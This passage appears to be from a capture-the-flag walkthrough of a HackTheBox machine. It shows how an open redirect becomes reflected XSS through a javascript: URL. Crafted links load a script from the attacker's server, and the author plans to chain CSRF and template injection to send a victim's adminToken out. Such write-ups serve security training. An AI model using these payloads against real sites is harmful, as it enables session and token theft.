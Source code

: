 At this point, all I’ve got is an open redirect (which is dangerous on its own), but to make this a reflective XSS, I’ll take advantage of the [JavaScript URL Protocol](https://docs.microsoft.com/en-us/previous-versions/aa767736(v=vs.85)). If a URL is of the form `javascript:[script]`, the stuff in `[script]` will be run as JavaScript.

To test this, I’ll visit `graph.htb/?redirect=javascript:alert(1)`:

![image-20220727170135294](https://0xdfimages.gitlab.io/img/image-20220727170135294.png)

#### Load Arbitrary JavaScript

I’ll play around with a URL in Firefox to get something that will load and execute arbitrary JavaScript from my server. With `alert.js` being a simple `alert(1)`, this URL works to pop an alert:

```

http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D%27%3Cscript%20src%3d%22http://10.10.14.6/alert.js%22%3E%3C/script%3E%27

```

![image-20220727171640868](https://0xdfimages.gitlab.io/img/image-20220727171640868.png)

I’ll generate a similar link to send to Larry:

```

http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D'<script%20src%3d"http://10.10.14.6/csrf.js"></script>'

```

It’s important that certain characters are URL-encoded, and that there are no spaces. On sending:

```
10.10.11.157 - - [27/Jul/2022 19:57:11] code 404, message File not found
10.10.11.157 - - [27/Jul/2022 19:57:11] "GET /csrf.js HTTP/1.1" 404 -

```

A browser on Overgraph is requesting `csrf.js`. That’s promising!

This JS will run in the context of `graph.htb`, so I can’t directly request the `adminToken` from here.

### Exfil adminToken

#### Strategy

Pulling this all together, I’ll send Larry a link with the reflective XSS payload to load JavaScript from my server.

That Javascript will generate a CRSF to hit the API to change Larry’s last name to the CSTI payload.

Once that succeeds, when Larry next checks anything on the dashboard, the CSTI will fire, sending Larry’s `adminToken` to me.
